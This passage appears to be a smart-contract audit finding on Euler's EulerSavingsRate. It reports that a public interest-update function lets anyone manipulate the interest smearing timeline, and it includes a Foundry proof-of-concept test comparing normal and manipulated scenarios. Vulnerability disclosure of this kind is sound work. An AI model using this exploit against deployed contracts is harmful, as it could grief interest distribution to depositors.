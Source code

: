 ## Impact
Even if protocol fixes the "known" issue of gulp() by whitelisting etc (please refer the other report titled "_gulp() can be griefed to delay interest distribution indefinitely_" for analysis of the `gulp()` issue), this fn can be called by anyone and is identical to gulp() except the fact that smearEnd timeline is not pushed forward, so no "smearing" happens. Hence a separate fix is required for this vulnerability.<br>
Show textual flow steps as mentioned in "audit-info" below.

## Proof of Concept
Add the test inside `test/unit/esr/ESR.Gulp.t.sol`:
```js
    function test_t0x1c_updateInterestAndReturnESRSlotCache() public { 
        uint256 depositAmount = 100e18;
        doDeposit(user, depositAmount);

        uint256 interestAmount = 10e18;
        // Mint interest directly into the contract
        asset.mint(address(esr), interestAmount);
        esr.gulp();
        uint256 smearEnd = block.timestamp + esr.INTEREST_SMEAR();


        EulerSavingsRate.ESRSlot memory esrSlot = esr.getESRSlot();

        assertEq(esr.totalAssets(), depositAmount, "totalAsset mismatch");
        assertEq(esrSlot.interestLeft, interestAmount, "interestLeft mismatch");
        assertEq(esrSlot.lastInterestUpdate, block.timestamp, "lastInterestUpdate mismatch");
        assertEq(esrSlot.interestSmearEnd, smearEnd, "interestSmearEnd mismatch");

        skip(esr.INTEREST_SMEAR() / 2);
        uint256 snapshot = vm.snapshot();


        // ********** SCENARIO - 1 (NORMAL) ************        
        emit log_named_string("************** SCENARIO - 1", "NORMAL      **************");
        esr.gulp();

        esrSlot = esr.getESRSlot();
        assertEq(esr.totalAssets(), depositAmount + interestAmount / 2, "totalAsset mismatch");
        assertEq(esrSlot.interestLeft, interestAmount / 2, "interestLeft != interestAmount / 2");
        assertEq(esrSlot.lastInterestUpdate, block.timestamp, "lastInterestUpdate mismatch");
        assertEq(esrSlot.interestSmearEnd, block.timestamp + esr.INTEREST_SMEAR(), "interestSmearEnd mismatch");
        emit log_named_uint("interestSmearEnd normal          =", esrSlot.interestSmearEnd);



        // ********** SCENARIO - 2 (MANIPULATED) ************    
        emit log_named_string("************** SCENARIO - 2", "MANIPULATED **************");
        vm.revertTo(snapshot);    
        esr.updateInterestAndReturnESRSlotCache(); // @audit : attacker calls this before any call to gulp() is made

        esrSlot = esr.getESRSlot();
        assertEq(esr.totalAssets(), depositAmount + interestAmount / 2, "updateInterest() totalAsset mismatch");
        assertEq(esrSlot.interestLeft, interestAmount / 2, "updateInterest() interestLeft != interestAmount / 2");
        assertEq(esrSlot.lastInterestUpdate, block.timestamp, "updateInterest() lastInterestUpdate mismatch");
        assertEq(esrSlot.interestSmearEnd, smearEnd, "updateInterest() interestSmearEnd mismatch");
        emit log_named_uint("interestSmearEnd manipulated     =", esrSlot.interestSmearEnd);
```